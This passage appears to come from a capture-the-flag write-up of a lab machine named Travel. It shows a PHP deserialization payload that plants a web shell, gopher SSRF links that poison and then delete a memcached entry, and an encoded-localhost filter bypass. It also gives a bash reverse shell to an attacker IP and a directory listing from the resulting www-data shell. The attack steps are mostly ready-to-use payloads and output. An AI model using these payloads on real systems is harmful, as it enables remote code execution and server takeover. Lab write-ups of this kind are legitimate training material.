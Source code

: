 ```text

Give serialization payload
example: O:5:"Hello":0:{}   : O:14:"TemplateHelper":2:{s:4:"file";s:13:"test.php";s:4:"data";s:34:"<?php system($_REQUEST['test']);?>";}

Your gopher link is ready to do SSRF :                                                                   
gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%20111%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:13:%22test.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27test%27%5D%29%3B%3F%3E%22%3B%7D%0d%0a

After everything done, you can delete memcached item by using this payload:                             

gopher://127.0.0.1:11211/_%0d%0adelete%20SpyD3r%0d%0a

-----------Made-by-SpyD3r-----------
```

After that it took awhile to figure out where my `back_door.php` was located. I found a hint in the README.md file I had found in the git repository earlier: `* create logs directory in`wp-content/themes/twentytwenty\`\` I used dirbuster to find the exact directory, adding back\_door to my wordlist

final url - the length of the contents is important! make sure it is correct \(111 in my case\)

```text
http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://0x7f000001:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20111%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:13:%22back_door.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27test%27%5D%29%3B%3F%3E%22%3B%7D%0d%0a
```

HAVE TO decimal/hex encode 127.0.0.1~~~!!! 2130706433 or 0x7f000001 and add xct\_ a shell can be obtained by using parameter:

```text
test=bash -c "bash -i >& /dev/tcp/10.10.15.53/8099 0>&1"
```

`xct_4e5612ba079c530a6b1f148c0b352241`

### Initial Foothold - `www-data`

```text
www-data@blog:/var/www/html$ ls -la
ls -la
total 232
drwxrwxrwx  5 www-data www-data  4096 Apr 13 13:28 .
drwxr-xr-x  1 root     root      4096 Mar 31 18:10 ..
-rw-r--r--  1 www-data www-data   461 Apr 13 13:19 .htaccess
-rw-r--r--  1 root     root      6423 Apr 13 14:21 customfeed.xml
-rw-r--r--  1 www-data www-data   405 Feb  6  2020 index.php
-rw-r--r--  1 www-data www-data 19915 Feb 12  2020 license.txt
-rw-r--r--  1 www-data www-data  7278 Jan 10  2020 readme.html
-rw-r--r--  1 www-data www-data  6912 Feb  6  2020 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Mar 31 20:03 wp-admin
-rw-r--r--  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rw-r--r--  1 www-data www-data  2275 Feb  6  2020 wp-comments-post.php
-rw-r--r--  1 www-data www-data  2913 Feb  6  2020 wp-config-sample.php
-rw-rw-rw-  1 www-data www-data  3186 Apr 13 14:10 wp-config.php
drwxr-xr-x  5 www-data www-data  4096 Apr 23 19:10 wp-content
-rw-r--r--  1 www-data www-data  3940 Feb  6  2020 wp-cron.php
drwxr-xr-x 21 www-data www-data 12288 Mar 31 20:03 wp-includes
-rw-r--r--  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
-rw-r--r--  1 www-data www-data  3300 Feb  6  2020 wp-load.php
-rw-r--r--  1 www-data www-data 47874 Feb 10  2020 wp-login.php
-rw-r--r--  1 www-data www-data  8501 Feb  6  2020 wp-mail.php
```